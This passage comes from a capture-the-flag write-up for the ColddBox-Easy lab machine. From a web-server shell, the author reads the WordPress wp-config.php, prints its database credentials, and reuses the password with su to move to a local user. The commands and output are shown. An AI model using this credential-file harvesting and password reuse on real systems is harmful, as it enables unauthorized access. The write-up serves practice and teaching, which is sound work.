 As there's web server running i went after `/var/www/*`

From `/var/www/html/wp-config.php` i found the credentials:   
```bash
<?php
/**
 * The base configurations of the WordPress.
 *
 * This file has the following configurations: MySQL settings, Table Prefix,
 * Secret Keys, and ABSPATH. You can find more information by visiting
 * {@link http://codex.wordpress.org/Editing_wp-config.php Editing wp-config.php}
 * Codex page. You can get the MySQL settings from your web host.
 *
 * This file is used by the wp-config.php creation script during the
 * installation. You don't have to use the web site, you can just copy this file
 * to "wp-config.php" and fill in the values.
 *
 * @package WordPress
 */

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'colddbox');

/** MySQL database username */
define('DB_USER', 'c0ldd');

/** MySQL database password */
define('DB_PASSWORD', 'cybersecurity');

/** MySQL hostname */
define('DB_HOST', 'localhost');

/** Database Charset to use in creating database tables. */
define('DB_CHARSET', 'utf8');

/** The Database Collate type. Don't change this if in doubt. */
define('DB_COLLATE', '');

```

User: c0ldd   
Pass: cybersecurity   

```bash
www-data@ColddBox-Easy:/var/www/html$ su c0ldd
su c0ldd
Password: cybersecurity

c0ldd@ColddBox-Easy:/var/www/html$ id
id
uid=1000(c0ldd) gid=1000(c0ldd) grupos=1000(c0ldd),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
c0ldd@ColddBox-Easy:/var/www/html$
```
